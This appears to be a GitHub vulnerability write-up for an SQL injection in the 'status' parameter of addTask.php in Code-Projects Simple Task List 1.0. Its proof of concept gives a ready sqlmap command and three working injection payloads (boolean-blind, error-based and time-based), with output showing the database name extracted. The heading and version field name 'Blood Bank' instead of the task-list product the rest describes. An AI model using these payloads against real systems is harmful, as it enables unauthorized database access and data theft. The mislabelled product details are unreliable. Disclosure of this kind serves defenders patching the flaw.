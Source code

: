 # CVE-2023-46023-Code-Projects-Blood-Bank-1.0-SQL-Injection-Vulnerability
+ Exploit Author: ersinerenler
# Vendor Homepage
+ https://code-projects.org/simple-task-list-in-php-with-source-code
# Software Link
+ https://download-media.code-projects.org/2020/12/Simple_Task_List_In_PHP_With_Source_Code.zip
# Overview
+ Code-Projects Simple Task List V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'status' parameter in the addTask.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46023
+ Affected Version: Blood Bank V1.0
+ Vulnerable File: /addTask.php
+ Parameter Names: status
+ Attack Type: Local
# Description
+ The lack of proper input validation and sanitization on the 'status' parameter allows an attacker to craft SQL injection queries, bypassing authentication mechanisms and gaining unauthorized access to the database

# Proof of Concept (PoC) : 
+ Register and login the system
+ Add a project and a task
+ Then use the sqlmap to exploit
+ `sqlmap -u "http://localhost/Tasklist/addTask.php" --headers "Cookie: PHPSESSID=<php-cookie-value>" --method POST --data "name=test&status=N" -p status --risk 3 --level 5 --dbms mysql --batch --current-db`

```
---
Parameter: status (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=test&status=N'||(SELECT 0x59506356 WHERE 1189=1189 AND 7323=7323)||'

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=test&status=N'||(SELECT 0x6b786b49 WHERE 7851=7851 AND (SELECT 9569 FROM(SELECT COUNT(*),CONCAT(0x7171787171,(SELECT (ELT(9569=9569,1))),0x716b706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=test&status=N'||(SELECT 0x5669775a WHERE 4483=4483 AND (SELECT 3096 FROM (SELECT(SLEEP(5)))iFlC))||'
---
```
+ current database: `project`
<img width="1447" alt="image" src="https://github.com/ersinerenler/Code-Projects-Simple-Task-List-1.0/assets/113091631/7a836381-fd04-4f03-9c7c-63a23dcda583">
